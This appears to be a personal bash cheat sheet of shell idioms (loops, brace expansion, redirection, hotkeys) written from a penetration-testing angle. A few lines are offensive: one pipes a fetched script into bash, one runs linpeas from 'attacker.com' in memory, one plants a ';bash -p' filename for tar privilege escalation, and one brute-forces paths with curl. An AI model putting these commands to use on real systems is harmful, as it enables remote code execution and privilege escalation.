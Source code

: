 # bash_isms

> bash default vars
```bash
echo $?      # gives error code of most recently run command
```


> for loop
```bash
for i in {0..100}; do  CMD; done
also works for command execs: 
for i in $(cat wordlist.txt); do curl http://IP/$i; done
```

> Brace expansion; similar to * operator on iteratbles in python
```bash
cat {file1,file2,file3} 	 	; will cat those file

useful for 
	mkdir dir{1..4} dirA{1..8}
	wget http://MY_IP/{file1,file2} 		; note could even do a loop style brace expansion of numbers or letters here

'other examples'
	{a..z}
	{1..-5}
```

> a note on mkdir; creating a path of dirs
```bash
mkdir -p dir1/dir2/dir3
```

> use ENV vars in your bash scripting by:
```bash
${ENV_VARIABLE} 		; perhaps un-exported?

similar to $my_var
```

> redirection
```sh
./BINARY < exploit.txt
	exploit.txt must contain 1 input per line

can wget a bash script and pipe it into bash to execute a hosted script
	wget http://IP/SCRIPT | bash

can run linpeas without touching disk
	bash <(curl http://attacker.com/LINPEAS)
```

> advanced redirection, i am calling this bidirection
```shell
while read -r line; echo "prefix-$line";done < wordlist > outfile
```
The above bidirection 


> file creation and "done with arguments"
```sh
When trying to create malicious filenames use:
	touch -- ';bash -p' 
E.g. when doing tar GTFO bins priv esc 
	alternate, echo into malicous filenames

```

> keystrokes and hotkeys
```sh
alt+.  # hotkey for use last argument
cd -   # cd to last working dir
ctrl+r # reverse search previous cmds, press multiple times to see next result
```


> follow script directory traversal, potent for "day-start" and "new project" scripts. From a systems programming, perspective it is as if the `fork()` or `clone()` is not called (UNVERIFIED). The work is done by the parent itself. 
```shell
. script.sh
```

